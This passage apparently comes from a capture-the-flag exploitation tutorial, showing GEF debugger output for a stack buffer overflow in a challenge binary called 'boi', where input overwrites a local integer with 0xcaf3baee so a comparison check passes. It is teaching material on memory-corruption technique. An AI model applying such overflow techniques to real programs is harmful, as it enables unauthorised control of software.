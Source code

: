 ```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "boi", stopped 0x4006a5 in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a5 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern 0000000000
[+] Searching '0000000000' in memory
[+] In '/usr/lib/x86_64-linux-gnu/libc-2.31.so'(0x7ffff7f60000-0x7ffff7fae000), permission=r--
  0x7ffff7f82190 - 0x7ffff7f821a0  →   "0000000000000000" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdf70 - 0x7fffffffdf7a  →   "0000000000[...]" 
  0x7fffffffdf7a - 0x7fffffffdf84  →   "0000000000[...]" 
gef➤  x/10g 0x7fffffffdf70
0x7fffffffdf70: 0x3030303030303030  0x3030303030303030
0x7fffffffdf80: 0xcaf3baee30303030  0x0
0x7fffffffdf90: 0x7fffffffe090  0x3496b8bb604aaf00
0x7fffffffdfa0: 0x0 0x7ffff7dea083
0x7fffffffdfb0: 0x200000008 0x7fffffffe098
```

Here we can see that we have overwritten the integer with the value `0xcaf3baee`. When we continue onto the `cmp` instruction, we can see that we will pass the check:

```
gef➤  si
0x00000000004006a8 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xcaf3baee        
$rbx   : 0x000000004006e0  →  <__libc_csu_init+0> push r15
$rcx   : 0x007ffff7ed3fd2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x18              
$rsp   : 0x007fffffffdf60  →  0x007fffffffe098  →  0x007fffffffe3a2  →  "/Hackery/new_nightmare/modules/04-bof_variable/csa[...]"
$rbp   : 0x007fffffffdfa0  →  0x0000000000000000
$rsi   : 0x007fffffffdf70  →  0x3030303030303030 ("00000000"?)
$rdi   : 0x0               
$rip   : 0x000000004006a8  →  <main+103> cmp eax, 0xcaf3baee
$r8    : 0x18              
$r9    : 0x7c              
$r10   : 0xfffffffffffff3cd
$r11   : 0x246             
$r12   : 0x00000000400530  →  <_start+0> xor ebp, ebp
$r13   : 0x007fffffffe090  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdf60│+0x0000: 0x007fffffffe098  →  0x007fffffffe3a2  →  "/Hackery/new_nightmare/modules/04-bof_variable/csa[...]"  ← $rsp
0x007fffffffdf68│+0x0008: 0x000000010040072d
```